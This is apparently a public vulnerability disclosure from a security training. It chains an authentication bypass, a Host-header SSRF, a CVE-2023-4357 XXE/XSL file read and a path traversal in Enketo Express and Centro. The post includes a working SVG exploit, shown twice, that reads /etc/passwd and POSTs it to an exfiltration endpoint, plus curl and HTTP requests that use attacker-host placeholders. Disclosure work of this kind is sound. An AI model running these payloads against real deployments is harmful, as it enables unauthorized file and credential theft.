


## Introduction

This training session was focused on white-box code review, application, and system runtime introspection.\
We wanted to work on a JavaScript backend framework and [Enketo Express](https://enketo.org/) seemed to be a good candidate.
The source code is available on [GitHub - enketo/enketo-express](https://github.com/enketo/enketo-express) and the version we assessed was the [version 6.2.1](https://github.com/enketo/enketo-express/releases/tag/6.2.1), built with the official Dockerfiles.

Enketo is a cross platform software used to (quoting):

> Deploy and conduct surveys that work without a connection, on any device.

This article describes a chain of vulnerabilities which could be used to achieve an unauthenticated arbitrary file read based on [this specific enketo lab](https://github.com/rooney/enketo-express-oc/blob/master/setup/docker/docker-compose.yml).

## Authentication Bypass Mechanism

**Location**: `app/models/account-model.js:44-49`

The authentication mechanism can be bypassed through a hardcoded pattern match that allows specific server URLs to authenticate with predetermined credentials for testing & demo purpose.

### Vulnerability Mechanism

The `get()` function parses the `server_url` parameter for any GET request to any endpoint and chooses a different authentication schema based on its value:

```javascript
function get(survey) {
    let error;
    const server = _getServer(survey);
    (...)
    if (/https?:\/\/testserver.com\/bob/.test(server)) {
        return Promise.resolve({
            linkedServer: server,
            key: 'abc',
            quota: 100,
        });
    }
    (...)
}
```

The regular expression `/https?:\/\/testserver.com\/bob/` matches any URL containing the pattern `https://testserver.com/bob` or `http://testserver.com/bob`. When matched, the system automatically provides basic authentication with the hardcoded username `'abc'` and any password.

### Exploitation

An attacker can bypass authentication by setting the `server_url` parameter to any value matching the pattern:

```http
GET /any/endpoint?server_url=https://testserver.com/bob HTTP/1.1
```

This triggers the hardcoded authentication response without requiring valid credentials.


### Impact

- Complete authentication bypass for all endpoints accepting the `server_url` parameter
- No actual credentials required - only pattern matching on a controllable input
- Enables unauthenticated access to protected functionalities (small quota)

When matched, the system automatically provides basic authentication with the hardcoded username `'abc'` and any password. This bypasses the normal authentication flow entirely.
While it does not grant direct access to sensitive data, it extends dramatically the attack surface of the application.

## Server-Side Request Forgery (SSRF)

**Location**: `app/controllers/api-v2-controller.js:596-599`, `app/controllers/api-v2-controller.js:736`

The application contains a Server-Side Request Forgery vulnerability through the browser-based PDF generation endpoint. It allows attackers to abuse this feature to force the server into making HTTP requests to arbitrary destinations, including internal ones.

### Why PDF Rendering Exists in Enketo

Enketo is a web-based form rendering engine for XForms (OpenRosa standard), primarily used by humanitarian organizations and survey platforms like KoboToolbox and ODK Central. The PDF generation feature serves critical business needs:

1. **Offline Record Keeping**: Organizations need paper backups of digital forms for archival purposes and offline access
2. **Regulatory Compliance**: Many sectors (healthcare, humanitarian aid) require physical documentation for audits
3. **Field Operations**: Workers in low-connectivity areas need printable forms as fallback when digital systems fail
4. **Official Documentation**: Completed surveys often need to be printed with official letterhead for legal/administrative purposes
5. **Data Sharing**: PDFs provide an universal format for sharing survey results with non-technical stakeholders

### Vulnerability Mechanism

The SSRF vulnerability exists in the `_generateWebformUrls()` function which constructs URLs for PDF rendering by directly using the untrusted Host header:

```javascript
const protocol = req.protocol;
const baseUrl = `${protocol}://${req.headers.host}${req.app.get('base path')}/`;
```

The `req.headers.host` value is completely controlled by the attacker and is used without validation to construct the URL that Puppeteer will navigate to:

```javascript
function _renderPdf(status, id, req, res) {
    const url = _generateWebformUrls(id, req).pdf_url;
    // This URL contains the attacker-controlled Host header
```

This constructed URL is then passed to Puppeteer's headless Chrome instance, which navigates to the attacker-controlled domain.

### Exploitation

**Step 1: Attacker Sends Request with Malicious Host Header**

```http
POST /api/v2/survey/view/pdf HTTP/1.1
Host: evil.attacker.com
Authorization: Basic YWJjOg==
Content-Type: application/json

{
  "server_url": "https://testserver.com/bob",
  "form_id": "malicious_form"
}
```

**Step 2: URL Construction with Attacker's Host**

```javascript
// req.headers.host = "evil.attacker.com" (attacker-controlled)
const baseUrl = `${protocol}://${req.headers.host}${req.app.get('base path')}/`;
// Results in: "https://evil.attacker.com/"

// Final pdf_url construction (around line 680-688)
obj.pdf_url = `${baseUrl}${iframePart}${idPartView}${queryString}`;
// Results in: "https://evil.attacker.com/::abcd1234::?print=true"
```

**Step 3: Puppeteer Navigates to Attacker's Domain**

```javascript
await page.goto(urlObj.href, { waitUntil: 'networkidle0', timeout })
// Puppeteer navigates to: https://evil.attacker.com/::abcd1234::?print=true
```

### Impact

- Attacker can force the server's Puppeteer instance to navigate to arbitrary URLs
- Enables exfiltration of server-side data through controlled endpoints
- Bypasses network-level restrictions by using the application as a proxy
- Can be chained with XXE vulnerability for arbitrary file read

## XXE Vulnerability in PDF Rendering (CVE-2023-4357)

**Location**: `app/lib/pdf.js:38-118`\
**Library**: Puppeteer v13.7.0 (Chromium-based headless browser)

The application uses Puppeteer (v13.7.0), a Node.js library that controls a headless Chromium browser, for PDF rendering. The bundled Chromium version is vulnerable to CVE-2023-4357, an XXE (XML External Entity) vulnerability that enables arbitrary local file reading through specially crafted SVG documents.

### Vulnerability Mechanism

The PDF rendering feature is implemented using Puppeteer's `page.pdf()` API:

```javascript
const puppeteer = require('puppeteer');

async function get(url, options = {}) {
    // Launch headless Chrome with relaxed sandbox (security concern)
    const browser = await puppeteer.launch({
        headless: true,
        args: ['--no-sandbox']  // Disables Chrome's sandbox isolation
    });
    const page = await browser.newPage();

    // Load the Enketo form webpage
    await page.goto(urlObj.href, {
        waitUntil: 'networkidle0',  // Wait for all network requests
        timeout: 60000               // 60-second timeout from config
    });

    // Canvas-to-image conversion workaround for Chromium bug
    await page.evaluate(() => {
        document.querySelectorAll('canvas').forEach(canvasToImage);
    });

    // Generate PDF from rendered page
    pdf = await page.pdf({
        landscape: options.landscape,
        format: options.format,        // A4, Letter, Legal, etc.
        margin: options.margin,        // Default: 0.5in
        printBackground: true,
        timeout: 60000
    });

    return pdf;
}
```

**Invocation Path**:

1. API request to `/api/v2/survey/view/pdf?server_url=X&form_id=Y`
2. Controller `app/controllers/api-v2-controller.js#L735-L757` calls `_renderPdf()`
3. Generates webform URL with `?print=true` parameter
4. Calls `pdf.get(url, req.page)` to render via Puppeteer
5. Returns PDF buffer as `application/pdf` response

**Security Weaknesses**:

- `--no-sandbox` flag disables Chromium's process isolation
- Puppeteer v13.7.0 bundles Chromium 100.x, vulnerable to CVE-2023-4357
- The vulnerability exists in Chromium's XML parser used for rendering SVG images

### Exploitation

An attacker can craft and serve a malicious SVG file that exploits the XXE vulnerability:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="?#"?>
<!DOCTYPE p [
  <!ENTITY leaked SYSTEM "file:///etc/passwd">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('')" />
    <body xmlns="http://www.w3.org/1999/xhtml">
      <div style="display:none">
        <p id="pouet">File: &leaked;</p>
      </div>
      <div style="width:40rem" id="r" />
      <script>
        const url = "http://172.17.0.1:8000/exfil"
        setTimeout(() => {
          fetch(url, { method: "POST", body: "pre-trigger"})
        }, 50)
        setTimeout(() => {
          fetch(url, { method: "POST", body: document.querySelector('#pouet').innerHTML})
        }, 100)
      </script>
    </body>
  </xsl:template>
</xsl:stylesheet>
```

> Lalu: I worked on this one-shot exploit of CVE-2023-4357 bundled in a single svg file in late 2023 but never published it, enjoy! 💌

**Attack Flow**:

1. **External Entity Declaration**: `<!ENTITY leaked SYSTEM "file:///etc/passwd">` defines an XML external entity referencing a local file
2. **Entity Resolution**: Chromium processes the SVG during `page.goto()` and resolves the external entity, reading `/etc/passwd`
3. **Content Injection**: The `&leaked;` reference injects the file contents into the rendered document
4. **Hidden Rendering**: File contents are placed in a hidden `<div style="display:none">` to prevent visual detection
5. **Data Exfiltration**: JavaScript extracts file contents from the DOM and sends them via HTTP POST to the attacker server `http://172.17.0.1:8000/exfil`
6. **Timing Synchronization**: `setTimeout()` functions ensure proper DOM rendering before exfiltration
7. **PDF Generation**: `page.pdf()` generates the PDF (which may appear normal to avoid suspicion)

### Impact

- Arbitrary file read of any file accessible to the Chromium process
- Common targets include:
  - `/etc/passwd`, `/etc/shadow` (system users)
  - `/proc/self/environ` (environment variables with secrets)
  - `~/.ssh/id_rsa`, `~/.aws/credentials` (authentication keys)
  - `/app/config/config.json` (Enketo configuration with database credentials)
  - `/app/.env` (environment secrets if present)
  - Redis connection strings from environment
- Exfiltrated data is transmitted to attacker-controlled infrastructure
- No rate limiting or detection mechanisms exist for the PDF endpoint

## Centro (Rosa Compliant) Server & Arbitrary File Read

In our lab, Centro (a test rosa server) was present (as suggested by [the doc](https://github.com/enketo/centro)) and could be used to test specific features. Only a small subset of ROSA features & storage were exposed, but while speaking with Guilhem (Yup, we casually brought friends in!), he found out a trivial file read issue was also present.

Below is the Centro part of our lab:

```bash
services:
  centro:
    image: node:20.15.1-slim
    ports:
        - 127.0.0.1:3000:3000
    working_dir: /app
    volumes:
        - ../../centro:/app
    command: bash -c "npm install; grunt; npm start"
```

**Location**: `app/lib/media.js:28-45` and `app/controllers/media-controller.js:23`

The media serving endpoint is vulnerable to path traversal attacks, allowing attackers to read arbitrary files from the server's filesystem by manipulating the file path in the URL.

### Vulnerability Mechanism

The `/form/*/media/` route processes file paths without proper sanitization. The vulnerable code uses a regular expression to extract the filename from the URL:

```javascript
const matchMediaURLSegments = (requestPath) => {
    const matches = requestPath.match(
        /^\/get\/([01])\/([^/]+)(?:\/([^/]+))?\/(.+$)/
    );

    if (matches != null) {
        const [, resourceType, resourceId, hash, fileName] = matches;

        return {
            resourceType,
            resourceId,
            fileName,
            hash,
        };
    }
};
```

The regex pattern `(.+$)` captures everything after the last `/` as the `fileName` without validating or sanitizing path traversal sequences like `../` or URL-encoded variants like `%2E%2E%2F`.

The extracted filename is then used directly to look up files:

```javascript
const getHostURL = async (options) => {
    const mediaURLSegments = matchMediaURLSegments(requestPath);
    const { fileName, resourceId, resourceType } = mediaURLSegments;

    if (resourceType === ResourceType.INSTANCE) {
        const instanceAttachments = await getInstanceAttachments(resourceId);
        return instanceAttachments[fileName];  // Direct lookup with unsanitized fileName
    }
    (...)
}
```

### Exploitation

An attacker can read arbitrary files by including path traversal sequences in the media URL. The `--path-as-is` flag in curl prevents path normalization:

```bash
curl --path-as-is -iks 'http://localhost:3000/form/1/media/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd'
```

Breaking down the payload:

- `%2E%2E%2F` = URL-encoded `../`
- `%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F` = `../../../../`
- Final decoded path: `../../../../etc/passwd`

This bypasses the application's intended file access restrictions and allows reading system files outside the media directory.

### Impact

- **Arbitrary file read**: Access to any file readable by the application process
- **Information disclosure**: Exposure of sensitive configuration files, credentials, source code, and system files
- **No authentication required**: The vulnerability can be exploited without valid credentials
- **Cross-instance access**: Potential to access attachments from other form instances

Critical files that could be compromised include:

- `/proc/self/environ` - Env variables of the current process
- Application configuration files with database credentials
- Source code files containing business logic and potential vulnerabilities

## Full chain

All the vulnerabilities found during the training could be chained together to achieve arbitrary file read:



TODO(schema moins large, genre mettre "attacker" sous "unauthenticated access" pour l'avoir plus replié sur lui meme ? :/ )

**Sum'd Up Full Chain**:

1. Get unauthorized access thanks to the Broken Access Control
2. Exploit the SSRF to force the application's embedded browser to GET a page on their server and convert it into a pdf
3. Host a malicious SVG file on this specific page to exploit CVE-2023-4357 (Chrome-lfr-xxe-xsl) and insert any local file on the rendered page
4. Retrieve the PDF with the content of the file read and exfiltrate it through the svg's javascript payload


The full chain can be achieved in 2 technical steps:

1. Host the following SVG to a server which serves it as SVG whatever the endpoint requested:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="?#"?>
<!DOCTYPE p [
  <!ENTITY leaked SYSTEM "file:///etc/passwd">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('')" />
    <body xmlns="http://www.w3.org/1999/xhtml">
      <div style="display:none">
        <p id="pouet">File: &leaked;</p>
      </div>
      <div style="width:40rem" id="r" />
      <script>
        const url = "http://172.17.0.1:8000/exfil"
        setTimeout(() => {
          fetch(url, { method: "POST", body: "pre-trigger"})
        }, 50)
        setTimeout(() => {
          fetch(url, { method: "POST", body: document.querySelector('#pouet').innerHTML})
        }, 100)
      </script>
    </body>
  </xsl:template>
</xsl:stylesheet>
```

2. Run the following curl command:

```bash
curl -u abc: "http://<ENKETO_SERVER_URL>/api/v2/survey/view/pdf?server_url=https://testserver.com/bob&form_id=widgets&instance=foo&instance_id=111" -H 'Host: <ATTACKER_DOMAIN>'
```

## Mitigations

TODO(Wait for patches)

## Timeline

- 2024/11/24: OffenSkill Training, we break stuff 😏
- 2024/12/03: A PR [reworks the auth](https://github.com/enketo/enketo/pull/1378) 😭
- 2025/11/06: We share the vuln details with ODK/Enketo for in-depth hardening 😇
- 2025/11/06: Y.A. confirms they'll investigate, confirms issues don't affect ODK, forwards to Enketo maintainers
- 2025/11/10: We double-check latest code, most issues still present, send update 🔁
- 2025/11/13: "Who actually maintains Enketo?" — a philosophical journey begins 🧭
- 2025/11/13: Turns out Enketo is no longer a standalone project. Plot twist
- 2025/11/21: Still no word from Kobo. We gently poke 👉👈
- 2025/11/22: Y.A. kindly offers us free work instead of a bug bounty 💀
- 2025/11/25: J.M. from Kobo enters the chat. Finally, the right NPC 🎮
- 2025/11/26: We re-send everything. Third time's the charm 📬
- 2025/12/02: K.K. reviews findings: one fix, two wontfix, one "it's a feature" 🙈
- 2025/12/05: We respectfully disagree. SSRF gave us shells on NGOs but sure, "not a problem" 🫠
- 2025/12/10: K.K. agrees to fix Centro file read before Feb 6. Others stay wontfix
- 2026/02/06: 3 months passed, public disclosure 🎉

## Credits : Training lvl-30 | 2024 November

Attendees:

- Rodolphe Ghio / [RORO!](https://blog.rodolpheg.xyz/)
- Alexis Marquois / [Skilo](https://x.com/askilow)
- Nicolas Florent / [@Nitiflor](https://twitter.com/Nitiflor)
- Fadi Obeid
- [jrjgjk](https://x.com/GuilhemRioux) (Joined us for some friendly R&D) TODO(check guilhem/jrjgjk)



> Join the next Web Security Trainings at [Offenskill](https://offenskill.com/trainings/)
